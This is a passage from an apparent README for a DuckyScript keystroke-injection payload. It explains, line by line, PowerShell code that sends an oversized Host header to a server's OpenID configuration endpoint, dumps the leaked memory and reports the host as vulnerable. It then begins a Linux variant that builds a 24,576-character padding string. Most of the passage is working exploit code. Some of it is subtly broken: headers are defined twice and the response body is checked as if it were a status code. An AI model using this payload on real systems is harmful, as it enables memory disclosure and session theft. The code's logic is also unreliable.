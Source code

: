 ```powershell
$header_value = $header_value -replace "\n", ""
```

A variable `$headers` is created, which holds an HTTP header formatted as a string. This header will be used in the subsequent HTTP request.

```powershell
$headers = "-H 'Host:$header_value'"
```

Here, a variable `$headers` is created as a hashtable containing the HTTP header. In this case, only the "Host" header is used, with the value from `$header_value`.

```powershell
$headers = @{ 'Host' = $header_value }
```

This line defines the variable `$uri`, which contains the target URL for the HTTP request. Note that "#HOSTNAME" is a DuckyScript variable that should be replaced with the actual value before executing the script (see the [Settings](#settings) section).

```powershell
$uri = "https://#HOSTNAME/oauth/idp/.well-known/openid-configuration"
```

Here, the HTTP request to the specified URL is executed using the GET method and with the headers defined in the `$headers` variable. The result of the request is stored in the `$response` variable.

```powershell
$response = Invoke-RestMethod -Uri $uri -Headers $headers -Method GET -TimeoutSec 10
```

This `if` statement checks if the first three characters of the HTTP response in the `$response` variable are equal to "200," indicating a successful HTTP response.

```powershell
if ($response.Substring(0, 3) -eq "200")
```

If the preceding condition is true, some messages are printed to indicate the beginning of the output.

```powershell
Write-Host "--- Dumped memory ---"
$response.Substring(131050)
Write-Host "The #HOSTNAME is vulnerable!"
Write-Host "--- End ---"
```

If the initial condition of the `if` statement is not met, a message is printed, indicating that the machine is not vulnerable.

```powershell
Write-Host "Could not dump memory"
```

## Payload Description Linux

This line sets the `header_value` variable to a string containing 24,576 'a' characters. It uses the `yes` command to repeatedly output 'a' and `head` to limit it to 24,576 lines. The `tr` command is used to remove any newline characters, resulting in a long string of 'a's.

